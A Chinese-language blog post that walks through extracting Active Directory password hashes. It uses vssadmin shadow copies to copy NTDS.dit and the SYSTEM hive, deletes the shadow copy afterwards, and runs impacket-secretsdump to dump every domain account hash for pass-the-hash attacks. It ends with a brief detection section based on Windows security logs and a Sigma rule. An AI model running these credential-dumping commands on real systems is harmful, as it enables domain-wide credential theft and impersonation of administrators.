 ```yaml
---
layout: post
title:  "从NTDS.DIT文件中提取密码哈希"
date:   2019-12-31
tags: june-1
color: rgb(135,206,235)
cover: '../assets/test.jpg'
subtitle: '卷影副本转储NTDS.DIT文件'
---
```


# 什么是NTDS文件？
Ntds.dit文件是一个数据库文件，用于存储Active Directory的数据，其中包括用户对象，组和组成员的身份信息。最重要的是它包括域中所有用户的密码哈希。也就是说，我们通过提取NTDS文件中的散列HASH，可以使用Mimikatz之类的工具执行哈希传递攻击，或使用Hashcat之类的工具来破解这些密码。这些密码的提取和破解可以脱机执行，因此将无法检测到。一旦攻击者提取了这些HASH，它们便可以充当域上包括域管理员的任何用户。
# 场景描述
攻击者获取到域管理员权限后，可以尝试复制本地的NTDS.dit文件。之后读取文件中存储的用户凭证。
由于很多情况下DC的权限管理比较严格，这里使用vssadmin来通过卷影副本来将ntds文件转储，同时方便后续的读取hash的过程。
简单介绍一下vssadmin:
是Windows本地的白名单工具，存在于C:\Windows\System32\vssadmin.exe
能够显示当前卷卷影副本备份以及所有已安装的卷影副本编写器和提供程序。
## 创建C盘的卷影副本
使用以下命令（登录权限为域管理员权限）
{% highlight ruby %}
vssadmin create shadow /for=c:
{% endhighlight %}
![1](/assets/vssadmin1.png)
## 从卷影中检索并复制ntds.dit文件到指定目录下
使用以下命令（登录权限为域管理员权限）：
{% highlight ruby %}
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\ntds\ntds.dit C:\test\ntds.dit
{% endhighlight %}
![2](/assets/vssadmin2.png)
## 从注册表或卷影中复制SYSTEM文件
由于提取文件中的hash需要密钥，所以需要转储SYSTEM。这里从卷影副本中复制，使用以下命令：
{% highlight ruby %}
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\SYSTEM C:\test\SYSTEM
{% endhighlight %}
![3](/assets/vssadmin3.png)
## 删除创建的卷影副本
使用以下命令：
{% highlight ruby %}
vssadmin delete shadows /shadow={cfa726cf-1bac-4a3a-b51c-105327f0dc13}
{% endhighlight %}
![4](/assets/vssadmin4.png)
注：这里使用的卷影ID值为第一步中创建卷影副本时的ID值
## 读取ntds.dit文件中的hash值
使用kali中存在的工具Impacket，Imoacket是一组python脚本，可用于执行各种任务，包括提取NTDS文件的内容。
将转储后的ntds和SYSTEM文件放到某一目录下后（这里放到桌面下）使用以下命令：
{% highlight ruby %}
impacket-secretsdump -system /root/Desktop/SYSTEM -ntds /root/Desktop/ntds.dit LOCAL
{% endhighlight %}
可以看到已经提取出当前DC中所有的账户hash值，之后可以使用这些hash值进行hash传递。
![5](/assets/vssadmin5.png)
### Windows主机安全日志检测
由于很多生产环境不允许安装Sysmon，并且未在系统日志和应用程序日志中发现相关特征，所以只用安全日志来进行检测.
经过多次测试，域DC环境下执行卷影副本的创建时，会连续出现7个安全日志，如下图所示：
![6](/assets/vssadmin6.png)
注：在Windows2012R2版本及以上，可以开启Windows审核进程创建的安全策略，来记录命令行参数。
根据日志编写的sigma规则如下：
![7](/assets/vssadmin7.png)
